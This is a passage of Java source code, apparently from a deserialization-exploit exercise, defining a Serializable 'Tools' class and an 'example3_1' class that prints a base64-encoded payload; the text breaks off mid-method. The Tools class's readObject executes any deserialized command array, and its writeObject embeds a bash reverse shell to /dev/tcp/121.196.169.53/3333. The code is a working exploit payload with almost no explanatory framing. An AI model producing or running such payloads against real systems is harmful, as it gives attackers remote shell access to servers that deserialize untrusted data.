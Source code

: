 Tools.class

package com.tools;//一定要这个原文件同名的路径

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;

public class Tools implements Serializable {
    private static final long serialVersionUID = 1L;

    private String testCall;

    public static Object parse(byte[] bytes) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bytes));
        return ois.readObject();
    }

    public static byte[] create(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream outputStream = new ObjectOutputStream(bos);
        outputStream.writeObject(obj);
        return bos.toByteArray();
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        Object obj = in.readObject();
        (new ProcessBuilder((String[])obj)).start();
    }

    private void writeObject(ObjectOutputStream out) throws IOException,ClassNotFoundException {
        String[] cmd={"bash","-c","bash -i>& /dev/tcp/121.196.169.53/3333 0>&1"};
        out.writeObject(cmd);
    }

}

example3_1.class

package example;

import com.tools.Tools;
import java.util.Base64;

public class example3_1 
{
	public static void main(String[] args) {
        Base64.Encoder encoder = Base64.getEncoder();
	try {
            Tools cinfo = new Tools();
            byte[] bytes = Tools.create(cinfo);
            String payload = encoder.encodeToString(bytes);
            System.out.println(payload);
        } catch (Exception e) {
            e.printStackTrace();
        }
